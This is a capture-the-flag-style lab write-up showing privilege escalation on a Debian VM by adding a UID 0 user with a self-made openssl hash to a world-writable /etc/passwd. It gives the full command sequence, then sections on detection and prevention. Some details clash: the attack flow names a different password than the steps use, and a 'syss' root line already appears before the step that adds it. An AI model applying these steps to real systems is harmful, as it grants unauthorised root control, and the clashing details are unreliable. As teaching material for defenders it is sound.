




# Misconfigured File Permissions — /etc/passwd

**Date:** June 2026 <br>
**Author:** ShahinSecLab <br>
**Category:** Privilege Escalation <br>
**Difficulty:** Easy <br>
**Tools:** SSH, openssl, nano, su 

## Table of Contents

- [Introduction](#introduction)
- [Why This Attack Works](#why-this-attack-works)
- [Lab Setup](#lab-setup)
- [What I Needed Before Starting](#what-i-needed-before-starting)
- [What I Understood During the Process](#what-i-understood-during-the-process)
- [Attack Flow](#attack-flow)
- [Step 1 — Connecting to the Target via SSH](#step-1--connecting-to-the-target-via-ssh)
- [Step 2 — Checking `/etc/passwd` Permissions](#step-2--checking-etcpasswd-permissions)
- [Step 3 — Generating a Password Hash and Editing `/etc/passwd`](#step-3--generating-a-password-hash-and-editing-etcpasswd)
- [Step 4 — Logging in as Root with the New User](#step-4--logging-in-as-root-with-the-new-user)
- [How Defenders Can Catch This](#how-defenders-can-catch-this)
- [How to Prevent It](#how-to-prevent-it)
- [References](#references)
- [What I Achieved](#what-i-achieved)

## Introduction

Misconfigured File Permissions is one of the simplest privilege escalation techniques on Linux. If a critical system file like /etc/passwd is writable by normal users, I can add my own root level user directly to it. The next time I switch to that user, Linux gives me a full root shell — no exploit or CVE needed.

## Why This Attack Works

On a normal Linux system, `/etc/passwd` is readable by everyone but only writable by root. This file holds basic user account information — usernames, user IDs, group IDs, home directories, and shell paths.
The password field in `/etc/passwd` normally contains an `x` — which tells Linux to look at 
`/etc/shadow` for the real password hash. But if I replace that `x` with an actual password hash I generate myself, Linux will use my hash directly — completely skipping `/etc/shadow`.
Since I can write to the file, I can add a brand new user with UID 0 (root level) and a password I control. When I switch to that user, Linux sees UID 0 and gives me a full root shell.

## Lab Setup
```
| Component        | Details                                  |
|------------------|------------------------------------------|
| Attacker Machine | Kali Linux                               |
| Victim Machine   | Debian Linux                             |
| Victim IP        | 192.168.5.133                            |
| Access Method    | SSH with valid low-privilege credentials |
| Network          | VMware Host-Only Network                 |
```

## What I Needed Before Starting
```
|                    What                  |                      Why                             |
|------------------------------------------|------------------------------------------------------|
| SSH credentials for a low-privilege user | Starting point for the attack                        |
| Write access to `/etc/passwd`            | The misconfiguration that makes this attack possible |
| `openssl` on Kali                        | To generate a password hash                          |
| `nano` on the target                     | To edit `/etc/passwd`                                |
```

## What I Understood During the Process

While working through this attack I realized that:

- `/etc/passwd` being world writable is one of the most dangerous misconfigurations on any Linux system
- I did not need any exploit or CVE — just one line added to a file was enough to get root
- The `x` in the password field is the key — replacing it with a real hash bypasses `/etc/shadow` completely
- Setting UID to `0` in the new user entry gives root level access regardless of the username
- This kind of misconfiguration is easy to miss during system setup and very hard to detect without proper file integrity monitoring

## Attack Flow

```
Connected to the target over SSH with low privilege credentials
                        ↓
Checked permissions on /etc/passwd
                        ↓
Found /etc/passwd was world writable (-rw-r--rw-)
                        ↓
Read the contents of /etc/passwd
                        ↓
Generated a password hash on Kali using openssl
                        ↓
Built a new root user line with UID 0 and the generated hash
                        ↓
Opened /etc/passwd with nano and added the new line
                        ↓
Switched to the new user with su syss
                        ↓
Entered the password shahin
                        ↓
Got a full root shell
                        ↓
                whoami → root
```

## Step 1 — Connecting to the Target via SSH

```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa user@192.168.5.133
```

- `-o HostKeyAlgorithms=+ssh-rsa` : Allows older RSA host key algorithm — needed for older Linux systems
- `-o PubkeyAcceptedAlgorithms=+ssh-rsa` : Allows older RSA public key algorithm for authentication
- `192.168.5.133` : Target IP
- `user`: User Name

**Output:**

```
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
user@192.168.5.133's password: 
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jun 30 12:32:04 2026 from 192.168.5.128
```
It prompted for the password right after the connection request, I typed `password321`, and got logged in successfully. The kernel version 2.6.32 stood out right away.

I logged in as `user` — a normal low privilege account on the system.

<p align="center">
  
</p>

## Step 2 — Checking /etc/passwd Permissions

```bash
user@debian:~$ ls -la /etc/passwd
```
**Output:**

```
-rw-r--rw- 1 root root 1074 Jan 14 11:17 /etc/passwd
```
### Breakdown

```
| Permission | Who            | What it means               |
|------------|----------------|-----------------------------|
|   rw-      | Owner (root)   | Root can read and write     |
|   r--      | Group (root)   | Group members can only read |
|   rw-      | Others         | Everyone can read and write |
```
The last `rw-` was the problem. Any normal user on the system — including me — could write directly to `/etc/passwd`. This was a serious misconfiguration.

### Read the Current Contents

```bash
user@debian:~$ cat /etc/passwd
```
**Output:**

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
syss:$1$n1dAk/CX$ZUkgI8Q8i9wC6eh9LlWy/1:0:0:root:/root:/bin/bash
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
user:x:1000:1000:user,,,:/home/user:/bin/bash
statd:x:103:65534::/var/lib/nfs:/bin/false
mysql:x:104:106:MySQL Server,,,:/var/lib/mysql:/bin/false
```
I focused on the root line:

```
root:x:0:0:root:/root:/bin/bash
```
### What the Root Line Means

```
| Field       | Value       | Description                                            |
|-------------|-------------|--------------------------------------------------------|
| root        | root        | Username                                               |
| x           | x           | Password placeholder — actual hash is in `/etc/shadow` |
| 0           | 0           | User ID — 0 means root                                 |
| 0           | 0           | Group ID — 0 means root group                          |
| root        | root        | Description                                            |
| /root       | /root       | Home directory                                         |
| /bin/bash   | /bin/bash   | Shell                                                  |
```
The `x` in the password field means the real password hash is stored in `/etc/shadow`. If I replace that `x` with a hash I generate myself, Linux will use my password instead of checking `/etc/shadow` — giving me root access with a password I control.

<p align="center">
  
</p>

## Step 3 — Generating a Password Hash and Editing /etc/passwd

### Generated a Password Hash on Kali

```bash
openssl passwd "password100"
```
**Output:**

```
$1$5EFEB5H4$Ze56xFFNd2t3zuCO2it..0
```
This is the MD5 password hash for the password `password100`

### Built the New Root User Line

I opened mousepad on Kali and built the new line by replacing `x` with the generated hash:

```
syss:$1$5EFEB5H4$Ze56xFFNd2t3zuCO2it..0:0:0:root:/root:/bin/bash
```
before:
```
root:x:0:0:root:/root:/bin/bash
```
```
|              Field                 | Value                | Description                                    |
|------------------------------------|----------------------|------------------------------------------------|
| syss                               | syss                 | New username I am creating                     |
| $1$5EFEB5H4$Ze56xFFNd2t3zuCO2it..0 | Hash of `password100`| My own password hash — Linux uses this directly|
| 0                                  | 0                    | User ID 0 — root level access                  |
| 0                                  | 0                    | Group ID 0 — root group                        |
| root                               | root                 | Description                                    |
| /root                              | /root                | Home directory                                 |
| /bin/bash                          | /bin/bash            | Shell                                          |
```
### Opened /etc/passwd on the Target and Added the Line

```bash
user@debian:~$ nano /etc/passwd
```
I scrolled to the bottom of the file and pasted the line:

```
syss:$1$5EFEB5H4$Ze56xFFNd2t3zuCO2it..0:0:0:root:/root:/bin/bash
```
Then pressed `Ctrl+X` then `Y` then Enter to save and exit.

### Confirmed the Line Was Added

```bash
user@debian:~$ cat /etc/passwd
```
**Output:**

```
root:x:0:0:root:/root:/bin/bash
...
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
syss:$1$5EFEB5H4$Ze56xFFNd2t3zuCO2it..0:0:0:root:/root:/bin/bash
...
mysql:x:104:106:MySQL Server,,,:/var/lib/mysql:/bin/false
```
The new line was sitting right there in /etc/passwd. The user syss with UID 0 was now part of the system.

<p align="center">
  
</p>

## Step 4 — Logging in as Root with the New User

```bash
user@debian:~$ su syss
```
```bash
Password: password100
```
**Output:**

```
root@debian:/home/user#
```

### Confirmed Root Access

```bash
root@debian:/home/user# whoami
```
**Output:**

```
root
```

```bash
root@debian:/home/user# id
```
```
uid=0(root) gid=0(root) groups=0(root)
```
I went from a normal low privilege user to full root access just by writing one line to /etc/passwd. No exploit, no CVE — just a misconfigured file permission.

<p align="center">
  
</p>

## How Defenders Can Catch This

```
|                                    Indicator                         |                   What to look for         |
|----------------------------------------------------------------------|--------------------------------------------|
| **/etc/passwd** modified outside of normal administrative procedures | File integrity monitoring (AIDE, Tripwire) |
| New user account with UID **0**                                      | Audit logs (**/var/log/auth.log**)         |
| **su** used to switch to an unexpected username                      | PAM logs                                   |
| World-writable permissions on **/etc/passwd**                        | Regular permission audits                  |
```

## How to Prevent It

- **Fix the permissions on /etc/passwd immediately**

```bash
chmod 644 /etc/passwd
```
The correct permission for /etc/passwd is -rw-r--r-- — root can write, everyone else can only read.

- **Audit critical file permissions regularly**

```bash
ls -la /etc/passwd
ls -la /etc/shadow
ls -la /etc/sudoers
```
- **Use file integrity monitoring**

Tools like AIDE or Tripwire will alert you the moment /etc/passwd is modified outside of normal admin activity.

- **Monitor for new UID 0 accounts**

Run this regularly to check for any accounts with root level UID:

```bash
awk -F: '($3 == 0) {print}' /etc/passwd
```
This should only ever return the root account. Any other entry with UID 0 is a red flag.

## What I Achieved 

By completing this attack I showed that:

- A single misconfigured file permission on /etc/passwd was enough to get full root access
- No exploits or CVEs were needed — just openssl, nano, and one line added to a file
- The fix is as simple as running chmod 644 /etc/passwd — yet this mistake shows up in real environments
- File integrity monitoring is the best way to catch this kind of attack before it causes damage

## References

- **MITRE ATT&CK — `/etc/passwd` and `/etc/shadow`**  
  https://attack.mitre.org/techniques/T1003/008

- **HackTricks — Writable `/etc/passwd`**  
  https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-etc-passwd

- **PayloadsAllTheThings — `passwd` file**  
  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#writable-etcpasswd

- **Linux man page — `passwd`**  
  https://www.man7.org/linux/man-pages/man5/passwd.5.html

- **GTFOBins**  
  https://gtfobins.github.io